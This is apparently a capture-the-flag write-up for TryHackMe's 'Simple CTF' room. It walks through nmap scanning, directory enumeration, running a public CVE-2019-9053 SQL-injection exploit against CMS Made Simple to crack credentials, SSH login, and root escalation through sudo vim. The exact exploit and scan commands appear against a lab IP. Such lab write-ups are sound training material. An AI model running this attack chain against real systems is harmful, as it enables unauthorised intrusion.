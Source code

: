 # Simple CTF

[Room Link](https://tryhackme.com/room/easyctf)

`nmap -A -O -sV -vv -T4 10.10.162.112`

Nmap as usual

![image](https://github.com/user-attachments/assets/c39d56ff-93c5-44f3-a235-c4e2977acfa6)

There's a webpage, lurked around but couldn't find anything useful

```
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.21.39.45
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```

Nmap results show that there are ftp, http and ssh ports open
I tried to look for any exploits for `Apache httpd 2.4.18 ((Ubuntu))` but unfortunately couldn't find any

So I explored the directories of the webpage using dirbuster

![image](https://github.com/user-attachments/assets/8591c106-03e6-48b2-99be-feeda5a12963)

We see that /simple has got all the directories

![image](https://github.com/user-attachments/assets/efb5e5b5-af7f-4f53-a6c8-f27fda7a6999)

![image](https://github.com/user-attachments/assets/35e83c89-177a-4c34-b522-7c6d8d7a686c)

searching for `CMS Made Simple 2.2.8 exploits`

Will lead to

https://github.com/Mahamedm/CVE-2019-9053-Exploit-Python-3

```
CVE-2019-9053 is a Time-Based Blind SQLi vulnerability which enables the attacker to enumerate the database extracting informatiaon by monitoring delays in the responses of the application. The vulnerability is present in versions of CMSMS equal to or below 2.2.9.
```

![image](https://github.com/user-attachments/assets/fc1368fd-0b4a-4c94-b135-b16616d9befa)

`python3 csm_made_simple_injection.py -u http://10.10.162.112/simple/ -t 4 -c -w /usr/share/wordlists/rockyou.txt ` will help cracking the username and password

![image](https://github.com/user-attachments/assets/6ab0030c-b972-4320-8e16-412fe1ed58da)


Since other than http, there is ssh, which is accessible using the given username and password

`ssh mitch@10.10.162.112 -p 2222`

![image](https://github.com/user-attachments/assets/929a9b5d-2fb2-4d99-a1bb-fa885f852e7b)

That's our user key

now for the root key, we need sudo privileges

![image](https://github.com/user-attachments/assets/35818412-1e83-4595-bf2c-b192dd8d0c93)

now to escalate using vim, we take help of [GTFObins](https://gtfobins.github.io/gtfobins/vim/#shell)

![image](https://github.com/user-attachments/assets/827d1dda-4dc9-45ff-ab18-13c34fa4659e)

![image](https://github.com/user-attachments/assets/9c32c162-1e73-4a53-ab6e-ac1a87f7aa2f)

got all privileges, time for root flag

![image](https://github.com/user-attachments/assets/41252838-7e22-4804-90f7-9bcd30d77855)















